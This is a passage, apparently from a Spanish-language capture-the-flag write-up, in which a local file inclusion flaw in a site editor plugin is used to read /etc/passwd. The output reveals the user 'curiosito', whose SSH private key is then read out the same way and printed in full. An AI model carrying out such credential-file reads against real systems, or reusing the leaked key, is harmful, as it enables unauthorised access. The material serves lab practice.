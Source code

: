 ```
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mysql:x:100:101:MySQL Server,,,:/nonexistent:/bin/false
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
curiosito:x:1000:1000::/home/curiosito:/bin/bash
{"success":true,"data":{"output":[]}}
```

Encontramos el usuario **curiosito**. De la misma forma obtenemos su id_rsa para tener acceso a la maquina mediante SSH

```
site-editor-lfi $> /home/curiosito/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
cr4PSHHcOqKAkv1/9xYpXW2ug=
-----END OPENSSH PRIVATE KEY-----
```